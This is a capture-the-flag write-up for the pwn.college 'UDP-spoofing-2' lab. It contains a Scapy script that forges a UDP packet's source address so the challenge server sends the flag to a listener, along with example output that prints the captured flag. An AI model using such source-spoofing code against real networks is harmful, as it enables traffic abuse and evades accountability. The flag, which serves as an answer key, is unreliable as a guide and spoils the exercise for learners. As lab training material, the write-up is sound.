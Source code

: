 # 🛰️ UDP-spoofing-2 (pwn.college)

## 📝 Task Description

Sometimes developers implement TCP-like features over UDP, leading to scenarios where packets can be **spoofed** to appear from a different source.  
In this challenge, the server doesn’t return the flag directly — it sends it to a **specified IP and port**.

### 🎯 Goal:
Send a spoofed UDP packet to the challenge server that tricks it into sending the flag to your machine.

---

## 💡 Hint

- Use **UDP spoofing** to trick the challenge server into thinking the request came from **your IP**.
- To receive the flag:
  - Use `netcat` like: `nc -lu 12345`
  - Or use a Python sniffer
  - Or Wireshark

---

## ⚙️ Solution Code

```python
# udp.py
from scapy.all import IP, UDP, send, sniff
import sys

# Configuration
victim_server_ip = '10.0.0.2'        # Target server
our_listener_ip = '10.0.0.1'         # Where we want the flag sent
spoofed_src_ip = our_listener_ip
spoofed_src_port = 12345             # Port we listen on
victim_port = 31338                  # Challenge server's listening port

# Send spoofed packet to server
def send_pkt():
    print("[*] Sending spoofed packet...")
    pkt = IP(src=spoofed_src_ip, dst=victim_server_ip) / \
          UDP(sport=spoofed_src_port, dport=victim_port) / \
          b"FLAG:10.0.0.1:12345"
    send(pkt)
    print("[*] Packet sent!")

# Sniff for the incoming flag
def sniffer():
    def handle(pkt):
        if pkt.haslayer(UDP) and pkt[UDP].dport == spoofed_src_port:
            print("[+] Received flag!")
            print(f"Raw Data: {bytes(pkt[UDP].payload)}")
            pkt.show()
            sys.exit(0)

    print("[*] Sniffing for incoming flag...")
    sniff(filter=f"udp and port {spoofed_src_port}", prn=handle)

if __name__ == "__main__":
    send_pkt()
    sniffer()
```

### Example Output
```bash
[] Sending Packets....
.
Sent 1 packets.
Packet sent!
[]Sniffing packet..
Received Flag!
Raw packets : b'pwn.college{wvSXDSn97wha-gbnZhq42dUY-78.0VN0AjNxwSM0IzMyEzW}\n'
###[ Ethernet ]###
  dst       = c2:05:c5:bd:f8:58
  src       = 46:5f:19:29:89:e2
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 89
     id        = 32731
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0xa6b6
     src       = 10.0.0.2
     dst       = 10.0.0.1
     \options   \
###[ UDP ]###
        sport     = 31338
        dport     = 12345
        len       = 69
        chksum    = 0x1459
###[ Raw ]###
           load      = b'pwn.college{wvSXDSn97wha-gbnZhq42dUY-78.0VN0AjNxwSM0IzMyEzW}\n'
```

---
